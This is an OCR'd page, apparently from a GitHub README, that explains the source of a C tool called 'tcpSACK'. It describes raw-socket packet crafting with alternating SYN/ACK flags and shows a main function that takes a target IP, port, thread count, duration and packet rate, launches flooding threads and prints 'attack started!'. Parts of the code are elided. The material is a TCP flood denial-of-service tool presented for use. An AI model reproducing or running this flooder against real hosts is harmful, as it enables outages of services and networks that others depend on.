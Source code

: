 it creates raw sockets, prepares packets, and sends them to the target.

this is also where the alternation between SYN/ACK flags is set


6. the main function

```c
// main function
int main(int argc, char *argv[])
{
    if(argc < 6){
        fprintf(stderr, "[+] tcpSACK [+]\n");
        fprintf(stderr, "[+] usage: %s <ip> <port> <number of threads> <time> <pps>\n", argv[0]);
        exit(-1);
    }
    // ...

    floodport = atoi(argv[2]);
    void *target = argv[1];
    int max_pps = atoi(argv[5]);
    int num_threads = atoi(argv[3]);
    length_packet = 0;
    pthread_t thread[num_threads];

    // ...

    fprintf(stdout, "[+] starting threads...\n");
    for(int i = 0; i < num_threads; i++){
        if(pthread_create(&thread[i], NULL, &flooding_thread, target) != 0){
            perror("thread creation failed!");
            exit(1);
        }
    }

    fprintf(stdout, "[-] attack started!\n");

    
    for(int i = 0; i < (atoi(argv[4]) * 1000); i++) {
        usleep(1000);
        pthread_mutex_lock(&pps_mutex);

        
        if(pps > max_pps) {
            limiter++;
            sleeptime += 100;
        } else {
            if(limiter > 0) {
                limiter--;
            }
        }
        if(sleeptime > 25) {
            sleeptime -= 25;
        } else {
            sleeptime = 0;
        }

        pthread_mutex_unlock(&pps_mutex);
    }
    pps = 0;
    pthread_mutex_unlock(&pps_mutex);

    
    for(int i = 0; i < num_threads; i++) {
        pthread_cancel(thread[i]);
    }
```